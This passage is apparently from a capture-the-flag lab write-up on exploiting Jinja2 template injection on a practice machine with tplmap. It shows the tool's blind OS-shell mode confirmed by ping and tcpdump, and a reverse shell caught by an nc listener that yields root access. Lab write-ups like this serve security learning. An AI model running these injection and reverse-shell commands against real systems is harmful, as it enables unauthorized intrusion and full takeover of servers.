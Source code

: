 I tried ramping the `--level` up to 5 (default 1), but still failed to read files.

I did try the various shell options. The blind os shell option did in fact run commands:

```

root@kali# /opt/tplmap/tplmap.py -u http://10.10.10.96:8080/ -X POST -d "name=GBR-4045&desc=test" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0Njc0MDEwMX0._vYHq7D4Cq9eSMI5UTQRC4lM9BjB0DAmvFZy0ZJ664w" -e Jinja2 --os-shell

...[snip]...

[+] Blind injection has been found and command execution will not produce any output.
[+] Delay is introduced appending '&& sleep <delay>' to the shell commands. True or False is returned whether it returns successfully or not.
[+] Run commands on the operating system.
 (blind) $ ping -c 1 10.10.14.15

```

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
20:59:37.681992 IP 10.10.10.96 > kali: ICMP echo request, id 40458, seq 0, length 64
20:59:37.682017 IP kali > 10.10.10.96: ICMP echo reply, id 40458, seq 0, length 64

```

The `--reverse-shell` option worked. It gave me a weird error about not being able to bind on 0.0.0.0:[whatever port I gave it], even though it was supposed to a reverse shell… and the reverse shell worked:

```

root@kali# nc -lnvp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.96.
Ncat: Connection from 10.10.10.96:43747.
/bin/sh: can't access tty; job control turned off
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

That’s pretty neat.

I did notice that the reverse shell command tended to hang and be really difficult to kill. Not sure why…

### JWT

